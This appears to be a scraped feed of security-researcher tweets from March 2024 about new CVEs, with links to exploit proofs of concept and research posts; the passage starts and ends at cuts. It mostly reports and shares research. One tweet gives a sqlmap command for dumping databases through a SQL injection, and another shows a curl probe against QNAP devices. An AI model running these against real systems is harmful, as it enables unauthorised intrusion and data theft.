In this post, @mmolgtm  exploits CVE-2023-6241, a vulnerability in the Arm Mali GPU, to gain arbitrary kernel code execution and root on an Android Pixel 8, even when Memory Tagging Extension (MTE) is enabled on the device. https://t.co/acHRa63s6p https://t.co/qG4nCZ20qk
</blockquote>

* https://github.blog/2024-03-18-gaining-kernel-code-execution-on-an-mte-enabled-pixel-8/

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>14</code></td>
<td>Favorites: <code>52</code></td>
</tr></table>

---

# wvuuuuuuuuuuuuu
**https://twitter.com/wvuuuuuuuuuuuuu/status/1769779722181812646 _at 2024-03-18, 17:35:41_**
<blockquote>
RT @Dinosn: CVE-2024-28353 &amp; 28354: TRENDnet Router Takeover Flaws Exposed, No Patch Available https://t.co/dlX83GFvWM
</blockquote>

* https://securityonline.info/cve-2024-28353-28354-trendnet-router-takeover-flaws-exposed-no-patch-available/

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>42</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# kmkz_security
**https://twitter.com/kmkz_security/status/1769777386868916697 _at 2024-03-18, 17:26:24_**
<blockquote>
RT @mmolgtm: In this post I'll use CVE-2023-6241, a vulnerability in the Arm Mali GPU that I reported last November to gain arbitrary kerne…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>118</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# steventseeley
**https://twitter.com/steventseeley/status/1769776034528874955 _at 2024-03-18, 17:21:02_**
<blockquote>
RT @mmolgtm: In this post I'll use CVE-2023-6241, a vulnerability in the Arm Mali GPU that I reported last November to gain arbitrary kerne…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>129</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# chompie1337
**https://twitter.com/chompie1337/status/1769764325332222150 _at 2024-03-18, 16:34:30_**
<blockquote>
RT @mmolgtm: In this post I'll use CVE-2023-6241, a vulnerability in the Arm Mali GPU that I reported last November to gain arbitrary kerne…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>128</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# 0x_rood
**https://twitter.com/0x_rood/status/1769713363712655517 _at 2024-03-18, 13:12:00_**
<blockquote>
CVE-2022-0412 is time based sql injection but you can extract databases with this command

sqlmap./py -r request./txt --dbs --random-agent --time-sec=12 --level=5 --risk=3 --batch --flush-session

#bugbounty #bugbountytips https://t.co/2IhmC6XF6D
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>57</code></td>
<td>Favorites: <code>238</code></td>
</tr></table>

---

# TheHackersNews
**https://twitter.com/TheHackersNews/status/1769710664308687013 _at 2024-03-18, 13:01:16_**
<blockquote>
Fortra has patched a critical flaw (CVE-2024-25153) in FileCatalyst file transfer, preventing unauthorized remote code execution and blocking attackers from taking full control of vulnerable servers.

Read details: https://t.co/lvYRUu5O20

Patch immediately.

#cybersecurity
</blockquote>

* https://thehackernews.com/2024/03/fortra-patches-critical-rce.html

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>30</code></td>
<td>Favorites: <code>60</code></td>
</tr></table>

---

# jedisct1
**https://twitter.com/jedisct1/status/1769704790504657086 _at 2024-03-18, 12:37:56_**
<blockquote>
RT @LIJI32: I've exploited MadDirtyCow (CVE-2022-46689) and 2022 CoreTrust bug (CVE-2022-26766) to allow installation of perma-signed apps…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>150</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# Dinosn
**https://twitter.com/Dinosn/status/1769582607577055293 _at 2024-03-18, 04:32:25_**
<blockquote>
CVE-2024-28353 &amp; 28354: TRENDnet Router Takeover Flaws Exposed, No Patch Available https://t.co/dlX83GFvWM
</blockquote>

* https://securityonline.info/cve-2024-28353-28354-trendnet-router-takeover-flaws-exposed-no-patch-available/

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>14</code></td>
<td>Favorites: <code>43</code></td>
</tr></table>

---

# HunterMapping
**https://twitter.com/HunterMapping/status/1769574848999919631 _at 2024-03-18, 04:01:35_**
<blockquote>
🆕🆕🆕Security Research: Two Bytes is Plenty: FortiGate RCE with CVE-2024-21762
📰The research details the steps to identify the patched vulnerability and produce a working exploit.
⚠️⚠️It is another case of a network/security appliance having a pretty serious memory corruption… https://t.co/E6rpK5t71V
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>30</code></td>
<td>Favorites: <code>77</code></td>
</tr></table>

---

# payloadartist
**https://twitter.com/payloadartist/status/1769418548240416945 _at 2024-03-17, 17:40:30_**
<blockquote>
Command Injection in Kubernetes (&lt;1.28.4) leading to RCE with SYSTEM privileges on all Windows endpoints within a Kubernetes cluster by applying a malicious YAML file (CVE-2023-5528)

https://t.co/J3lvYglm0w

By @TomerPeled92

#kubernetest #azure #cybersecurity https://t.co/iOGrrxjoyn
</blockquote>

* https://www.akamai.com/blog/security-research/2024/mar/kubernetes-local-volumes-command-injection-vulnerability-rce-system-privileges

<table><tr>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>20</code></td>
<td>Favorites: <code>69</code></td>
</tr></table>

---

# 0xdea
**https://twitter.com/0xdea/status/1769266332233502859 _at 2024-03-17, 07:35:39_**
<blockquote>
Two Bytes is Plenty: #FortiGate #RCE with CVE-2024-21762 ✊ 

https://t.co/riQiuMpKSV

https://t.co/E2DIsXJuhc
</blockquote>

* https://www.assetnote.io/resources/research/two-bytes-is-plenty-fortigate-rce-with-cve-2024-21762
* https://infosec.exchange/@raptor/112109874065155645

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>19</code></td>
<td>Favorites: <code>51</code></td>
</tr></table>

---

# Dinosn
**https://twitter.com/Dinosn/status/1769258295381119335 _at 2024-03-17, 07:03:43_**
<blockquote>
RT @leak_ix: #QNAP CVE-2024-21899 vulnerability indicator:

curl -X POST --data 'wiz_func=start_2sv&amp;action=none&amp;user=guest&amp;pwd=none' -kv 'h…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>45</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# Dinosn
**https://twitter.com/Dinosn/status/1769225975403786351 _at 2024-03-17, 04:55:17_**
<blockquote>
Two Bytes is Plenty: FortiGate RCE with CVE-2024-21762 https://t.co/FcXwiSKaB6
</blockquote>

* https://www.reddit.com/r/netsec/comments/1bgl1sl/two_bytes_is_plenty_fortigate_rce_with/

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>39</code></td>
<td>Favorites: <code>103</code></td>
</tr></table>

---

# LIJI32
**https://twitter.com/LIJI32/status/1769120899293159746 _at 2024-03-16, 21:57:45_**
<blockquote>
I've exploited MadDirtyCow (CVE-2022-46689) and 2022 CoreTrust bug (CVE-2022-26766) to allow installation of perma-signed apps with arbitrary entitlements (a-la TrollStore) on my Apple Watch, running watchOS 8.3. \o/ https://t.co/eUU2ZiWs24
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>18</code></td>
<td>Replies: <code>30</code></td>
<td>Retweets: <code>160</code></td>
<td>Favorites: <code>1286</code></td>
</tr></table>

---

# momika233
**https://twitter.com/momika233/status/1769042698932220375 _at 2024-03-16, 16:47:01_**
<blockquote>
A PoC exploit for CVE-2023-43208 - Mirth Connect Remote Code Execution (RCE)
https://t.co/ux2SWgUpxT
</blockquote>

* https://github.com/K3ysTr0K3R/CVE-2023-43208-EXPLOIT

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>57</code></td>
<td>Favorites: <code>143</code></td>
</tr></table>

---

# wvuuuuuuuuuuuuu
**https://twitter.com/wvuuuuuuuuuuuuu/status/1768744890563772522 _at 2024-03-15, 21:03:38_**
<blockquote>
RT @infosec_au: At @assetnote, our security research team has worked tirelessly to build capabilities to exploit CVE-2024-21762, a pre-auth…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>97</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# infosec_au
**https://twitter.com/infosec_au/status/1768743977564393950 _at 2024-03-15, 21:00:00_**
<blockquote>
At @assetnote, our security research team has worked tirelessly to build capabilities to exploit CVE-2024-21762, a pre-auth RCE vulnerability in FortiGate SSLVPN. 150k+ instances of this on the internet. Dylan explained his journey in our blog: https://t.co/O2CFlqAbWP
</blockquote>

* https://www.assetnote.io/resources/research/two-bytes-is-plenty-fortigate-rce-with-cve-2024-21762

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>98</code></td>
<td>Favorites: <code>318</code></td>
</tr></table>

---

# TheHackersNews
**https://twitter.com/TheHackersNews/status/1768695894642425999 _at 2024-03-15, 17:48:56_**
<blockquote>
Researchers have uncovered "GhostRace" (CVE-2024-2193), a new variation of the Spectre v1 #vulnerability affecting CPUs with speculative execution. This attack exploits race conditions to allow attackers to leak sensitive data.

Read: https://t.co/mhOTUAVnho

#cybersecurity
</blockquote>

* https://thehackernews.com/2024/03/ghostrace-new-data-leak-vulnerability.html

<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>70</code></td>
<td>Favorites: <code>144</code></td>
</tr></table>

---

# TheHackersNews
**https://twitter.com/TheHackersNews/status/1768632208611557810 _at 2024-03-15, 13:35:52_**
<blockquote>
RT @TheHackersNews: Researchers detail a high-severity flaw in #Kubernetes, CVE-2023-5528, that allowed attackers remote code execution wit…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>48</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# cyber_advising
**https://twitter.com/cyber_advising/status/1768616302472478823 _at 2024-03-15, 12:32:40_**
<blockquote>
CVE-2024-2432: privilege escalation (PE) vulnerability in the Palo Alto Networks GlobalProtect app on Windows devices enables a local user to execute programs with elevated privileges...

PoC
https://t.co/LwO3yfcyLB https://t.co/JgGJOS3LHa
</blockquote>

* https://github.com/Hagrid29/CVE-2024-2432-PaloAlto-GlobalProtect-EoP?tab=readme-ov-file

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>13</code></td>
<td>Favorites: <code>58</code></td>
</tr></table>

---

# piedpiper1616
**https://twitter.com/piedpiper1616/status/1768525918992232611 _at 2024-03-15, 06:33:31_**
<blockquote>
GitHub - Hagrid29/CVE-2024-2432-PaloAlto-GlobalProtect-EoP - https://t.co/goqwgHeCM5
</blockquote>

* https://github.com/Hagrid29/CVE-2024-2432-PaloAlto-GlobalProtect-EoP

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>45</code></td>
<td>Favorites: <code>128</code></td>
</tr></table>

---

# hackerfantastic
**https://twitter.com/hackerfantastic/status/1768334124022895009 _at 2024-03-14, 17:51:23_**
<blockquote>
RT @TheHackersNews: Researchers detail a high-severity flaw in #Kubernetes, CVE-2023-5528, that allowed attackers remote code execution wit…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>42</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# TheHackersNews
**https://twitter.com/TheHackersNews/status/1768246221502591129 _at 2024-03-14, 12:02:06_**
<blockquote>
Researchers detail a high-severity flaw in #Kubernetes, CVE-2023-5528, that allowed attackers remote code execution with SYSTEM privileges on Windows endpoints within a cluster.

Learn more: https://t.co/mBFuSM1SuG

#hacking #cybersecurity #infosec
</blockquote>

* https://thehackernews.com/2024/03/researchers-detail-kubernetes.html

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>48</code></td>
<td>Favorites: <code>93</code></td>
</tr></table>

---

# momika233
**https://twitter.com/momika233/status/1768173921323675734 _at 2024-03-14, 07:14:48_**
<blockquote>
RT @cyber_advising: CVE-2024-21762: A out-of-bounds write in Fortinet FortiOS versions 7.4.0 through 7.4.2, 7.2.0 through 7.2.6, 7.0.0 thro…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>73</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# steventseeley
**https://twitter.com/steventseeley/status/1768146507709206734 _at 2024-03-14, 05:25:52_**
<blockquote>
RT @cyber_advising: CVE-2024-21762: A out-of-bounds write in Fortinet FortiOS versions 7.4.0 through 7.4.2, 7.2.0 through 7.2.6, 7.0.0 thro…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>73</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# TheHackersNews
**https://twitter.com/TheHackersNews/status/1768139807278932067 _at 2024-03-14, 04:59:15_**
<blockquote>
🛑 A new DarkGate #malware campaign uses a recently patched #Microsoft Windows flaw (CVE-2024-21412) to deploy malicious software via bogus installers.

Learn more: https://t.co/J8OjMzntrR

#hacking #cybersecurity
</blockquote>

* https://thehackernews.com/2024/03/darkgate-malware-exploits-recently.html

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>27</code></td>
<td>Favorites: <code>71</code></td>
</tr></table>

---

# TheHackersNews
**https://twitter.com/TheHackersNews/status/1768130697951130112 _at 2024-03-14, 04:23:03_**
<blockquote>
⚠️ Vulnerability Alert: Fortinet warns of a severe SQL Injection #vulnerability (CVE-2023-48788) in FortiClientEMS allowing unauthenticated attackers to execute code remotely.

Details: https://t.co/yHa0OB0Cs4

Check if your versions are affected and upgrade ASAP!
</blockquote>

* https://thehackernews.com/2024/03/fortinet-warns-of-severe-sqli.html

<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>91</code></td>
<td>Favorites: <code>151</code></td>
</tr></table>

---

# piedpiper1616
**https://twitter.com/piedpiper1616/status/1768061890608136478 _at 2024-03-13, 23:49:38_**
<blockquote>
GitHub - nettitude/CVE-2024-25153: Proof-of-concept exploit for CVE-2024-25153. - https://t.co/nVuld3yXNu
</blockquote>

* https://github.com/nettitude/CVE-2024-25153

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>17</code></td>
<td>Favorites: <code>44</code></td>
</tr></table>

---

# wvuuuuuuuuuuuuu
**https://twitter.com/wvuuuuuuuuuuuuu/status/1768059313300349377 _at 2024-03-13, 23:39:23_**
<blockquote>
RT @infosec_au: Our security research team at @assetnote discovered CVE-2023-5914 &amp; CVE-2023-6184 in Citrix StoreFront and Citrix Session R…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>32</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# GreyNoiseIO
**https://twitter.com/GreyNoiseIO/status/1768026057083359428 _at 2024-03-13, 21:27:15_**
<blockquote>
We published a tag today for CVE-2023-48788, a CVSS 9.8 SQL 💉 injection vulnerability in FortiNet FortiClientEMS, thanks to our friends at @Horizon3ai  https://t.co/Ir0Uc7QQku
</blockquote>

* https://viz.greynoise.io/tags/fortinet-forticlientems-cve-2023-48788-sql-injection-attempt?days=10

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>16</code></td>
<td>Favorites: <code>43</code></td>
</tr></table>

---

# standa_t
**https://twitter.com/standa_t/status/1768019723940507912 _at 2024-03-13, 21:02:05_**
<blockquote>
RT @0xor0ne: Interesting short reading on CVE-2024-21305: Hypervisor-Protected Code Integrity
(HVCI) bypass for arbitrary kernel-mode code…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>89</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# cyb3rops
**https://twitter.com/cyb3rops/status/1767989938966904864 _at 2024-03-13, 19:03:43_**
<blockquote>
RT @Horizon3Attack: The recent #Fortinet #FortiClient Endpoint Management Server (EMS) SQL injection vulnerability, CVE-2023-48788, allows…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>99</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# kmkz_security
**https://twitter.com/kmkz_security/status/1767979010133221438 _at 2024-03-13, 18:20:18_**
<blockquote>
RT @Horizon3Attack: The recent #Fortinet #FortiClient Endpoint Management Server (EMS) SQL injection vulnerability, CVE-2023-48788, allows…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>103</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# wvuuuuuuuuuuuuu
**https://twitter.com/wvuuuuuuuuuuuuu/status/1767968639141994960 _at 2024-03-13, 17:39:05_**
<blockquote>
RT @Horizon3Attack: The recent #Fortinet #FortiClient Endpoint Management Server (EMS) SQL injection vulnerability, CVE-2023-48788, allows…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>103</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# Horizon3Attack
**https://twitter.com/Horizon3Attack/status/1767965754744312161 _at 2024-03-13, 17:27:37_**
<blockquote>
The recent #Fortinet #FortiClient Endpoint Management Server (EMS) SQL injection vulnerability, CVE-2023-48788, allows an unauth attacker to obtain RCE as SYSTEM on the server.

IOCs, POC, and deep-dive blog to be released next week. In the meantime, check DAS service logs for… https://t.co/57ps2WiY8R
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>106</code></td>
<td>Favorites: <code>224</code></td>
</tr></table>

---

# Nettitude_Labs
**https://twitter.com/Nettitude_Labs/status/1767932490679779717 _at 2024-03-13, 15:15:27_**
<blockquote>
CVE-2024-25153: Remote Code Execution vulnerability in Fortra FileCatalyst. 

Full exploit and technical details included in our latest Labs post.

https://t.co/EaMuLuYaOo
</blockquote>

* https://labs.nettitude.com/blog/cve-2024-25153-remote-code-execution-in-fortra-filecatalyst/

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>13</code></td>
<td>Favorites: <code>32</code></td>
</tr></table>

---

# kmkz_security
**https://twitter.com/kmkz_security/status/1767930818553315579 _at 2024-03-13, 15:08:48_**
<blockquote>
RT @cyber_advising: CVE-2024-21762: A out-of-bounds write in Fortinet FortiOS versions 7.4.0 through 7.4.2, 7.2.0 through 7.2.6, 7.0.0 thro…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>73</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# ptracesecurity
**https://twitter.com/ptracesecurity/status/1767921171176059138 _at 2024-03-13, 14:30:28_**
<blockquote>
CVE-2024-21378 — Remote Code Execution in Microsoft Outlook https://t.co/7ELyXiPiBi #Pentesting #CyberSecurity #Infosec https://t.co/IYWQLMnTht
</blockquote>

* https://www.netspi.com/blog/technical/red-team-operations/microsoft-outlook-remote-code-execution-cve-2024-21378/?utm_source=organic_social&utm_medium=organic_social&utm_campaign=tech_blog&utm_term=outlook-cve

<table><tr>
<td></td>
<td></td>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>32</code></td>
<td>Favorites: <code>113</code></td>
</tr></table>

---

# cyber_advising
**https://twitter.com/cyber_advising/status/1767915098805256633 _at 2024-03-13, 14:06:20_**
<blockquote>
CVE-2024-21762: A out-of-bounds write in Fortinet FortiOS versions 7.4.0 through 7.4.2, 7.2.0 through 7.2.6, 7.0.0 through .... allows attacker to execute unauthorized code or commands via specifically crafted requests.

PoC
https://t.co/UBZcnCPfuR https://t.co/xe0RwLybhF
</blockquote>

* https://github.com/h4x0r-dz/CVE-2024-21762

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>73</code></td>
<td>Favorites: <code>179</code></td>
</tr></table>

---

# piedpiper1616
**https://twitter.com/piedpiper1616/status/1767885274720461273 _at 2024-03-13, 12:07:49_**
<blockquote>
GitHub - h4x0r-dz/CVE-2024-21762: out-of-bounds write in Fortinet FortiOS CVE-2024-21762 vulnerability - https://t.co/ScC0UlNRUC
</blockquote>

* https://github.com/h4x0r-dz/CVE-2024-21762

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>22</code></td>
<td>Favorites: <code>69</code></td>
</tr></table>

---

# Dinosn
**https://twitter.com/Dinosn/status/1767859506032025809 _at 2024-03-13, 10:25:26_**
<blockquote>
CVE-2024-27135: Apache Pulsar Remote Code Execution Vulnerability https://t.co/YtreVbFhN0
</blockquote>

* https://securityonline.info/cve-2024-27135-apache-pulsar-remote-code-execution-vulnerability/

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>16</code></td>
<td>Favorites: <code>46</code></td>
</tr></table>

---

# testanull
**https://twitter.com/testanull/status/1767756105407463656 _at 2024-03-13, 03:34:33_**
<blockquote>
CVE-2024-21426 &amp; CVE-2024-26198

Attacker be like: https://t.co/tu3La44GOs
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>8</code></td>
<td>Favorites: <code>99</code></td>
</tr></table>

---

# chybeta
**https://twitter.com/chybeta/status/1767745935633949052 _at 2024-03-13, 02:54:08_**
<blockquote>
analysis for CVE-2024-23917 

https://t.co/CBABOYOBec
</blockquote>

* https://t.zsxq.com/183GqPIax

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>14</code></td>
<td>Favorites: <code>86</code></td>
</tr></table>

---

# elhackernet
**https://twitter.com/elhackernet/status/1767616547215085645 _at 2024-03-12, 18:20:00_**
<blockquote>
Explotando la vulnerabilidad RCE en Microsoft Outlook

⏭️CVE-2024-21378 — Remote Code Execution
https://t.co/KrmUFQjSeN
</blockquote>

* https://www.netspi.com/blog/technical/red-team-operations/microsoft-outlook-remote-code-execution-cve-2024-21378/

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>25</code></td>
<td>Favorites: <code>88</code></td>
</tr></table>

---

# Dinosn
**https://twitter.com/Dinosn/status/1767574171398062332 _at 2024-03-12, 15:31:37_**
<blockquote>
CVE-2024-22039 (CVSS 10): Siemens Fire Protection Systems Vulnerable to Remote Attacks https://t.co/mR990hlNwq
</blockquote>

* https://securityonline.info/cve-2024-22039-cvss-10-siemens-fire-protection-systems-vulnerable-to-remote-attacks/

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>25</code></td>
<td>Favorites: <code>56</code></td>
</tr></table>

---

# payloadartist
**https://twitter.com/payloadartist/status/1767543566228914559 _at 2024-03-12, 13:30:00_**
<blockquote>
CVE-2023-49785: Unpatched Unauthenticated SSRF in  ChatGPT-Next-Web (Next JS based ChatGPT WebUI)

https://t.co/3Pm9Sjbw2V

By @Horizon3Attack 

#bugbountytips #cybersecurity #infosec https://t.co/IxDYSscxrg
</blockquote>

* https://www.horizon3.ai/attack-research/attack-blogs/nextchat-an-ai-chatbot-that-lets-you-talk-to-anyone-you-want-to/

<table><tr>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>15</code></td>
<td>Favorites: <code>62</code></td>
</tr></table>

---

# HunterMapping
**https://twitter.com/HunterMapping/status/1767383273146376540 _at 2024-03-12, 02:53:03_**
<blockquote>
🚨Alert🚨CVE-2024-21378:Remote Code Execution in Microsoft Outlook 
⚠New research has been published on how to discover and exploit the vulnerability️!
📊662K+ Services are found on https://t.co/WrjZaG0jRH
🔗Hunter:https://t.co/D4e39xFXWj

Dorks 👇👇👇
Hunter: https://t.co/BuDUXFkD3I
</blockquote>

* http://Hunter.how
* https://hunter.how/list?searchValue=product.name%3D%22Outlook%20Web%20App%22

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>5</code></td>
<td>Retweets: <code>114</code></td>
<td>Favorites: <code>301</code></td>
</tr></table>

---

# piedpiper1616
**https://twitter.com/piedpiper1616/status/1767338224903712957 _at 2024-03-11, 23:54:03_**
<blockquote>
RT @Horizon3Attack: Today we are disclosing a critical SSRF vulnerability, CVE-2023-49785, in a popular Gen AI chatbot, NextChat a.k.a Chat…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>59</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# pdnuclei
**https://twitter.com/pdnuclei/status/1767264821366419874 _at 2024-03-11, 19:02:22_**
<blockquote>
RT @DhiyaneshDK: Scan for [CVE-2023-49785] ChatGPT-Next-Web - SSRF/XSS (https://t.co/acAaQmQlkB) [critical] using @pdnuclei 

Nuclei Templa…
</blockquote>

* https://github.com/nvn1729

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>39</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# kmkz_security
**https://twitter.com/kmkz_security/status/1767255673803346291 _at 2024-03-11, 18:26:01_**
<blockquote>
RT @NetSPI: [Blog] CVE-2024-21378 – Microsoft Outlook Remote Code Execution 

How we discovered &amp; were able to exploit this vulnerability:…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>83</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# cyb3rops
**https://twitter.com/cyb3rops/status/1767249703186387369 _at 2024-03-11, 18:02:17_**
<blockquote>
RT @NetSPI: [Blog] CVE-2024-21378 – Microsoft Outlook Remote Code Execution 

How we discovered &amp; were able to exploit this vulnerability:…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>83</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# wvuuuuuuuuuuuuu
**https://twitter.com/wvuuuuuuuuuuuuu/status/1767212600041836788 _at 2024-03-11, 15:34:51_**
<blockquote>
RT @DhiyaneshDK: Scan for [CVE-2023-49785] ChatGPT-Next-Web - SSRF/XSS (https://t.co/acAaQmQlkB) [critical] using @pdnuclei 

Nuclei Templa…
</blockquote>

* https://github.com/nvn1729

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>34</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# DhiyaneshDK
**https://twitter.com/DhiyaneshDK/status/1767212195727728793 _at 2024-03-11, 15:33:15_**
<blockquote>
Scan for [CVE-2023-49785] ChatGPT-Next-Web - SSRF/XSS (https://t.co/acAaQmQlkB) [critical] using @pdnuclei 

Nuclei Template : https://t.co/44pVMqxbPK

#cve #nextchat #chatgpt #xss #ssrf #pdteam #hackwithutomation https://t.co/d6T4HmlPD4
</blockquote>

* https://github.com/nvn1729
* https://github.com/projectdiscovery/nuclei-templates/pull/9319/files

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>39</code></td>
<td>Favorites: <code>168</code></td>
</tr></table>

---

# hackerfantastic
**https://twitter.com/hackerfantastic/status/1767208323932209481 _at 2024-03-11, 15:17:52_**
<blockquote>
RT @NetSPI: [Blog] CVE-2024-21378 – Microsoft Outlook Remote Code Execution 

How we discovered &amp; were able to exploit this vulnerability:…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>47</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# wvuuuuuuuuuuuuu
**https://twitter.com/wvuuuuuuuuuuuuu/status/1767205865143062564 _at 2024-03-11, 15:08:06_**
<blockquote>
RT @Horizon3Attack: Today we are disclosing a critical SSRF vulnerability, CVE-2023-49785, in a popular Gen AI chatbot, NextChat a.k.a Chat…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>56</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# kmkz_security
**https://twitter.com/kmkz_security/status/1767187069015609503 _at 2024-03-11, 13:53:24_**
<blockquote>
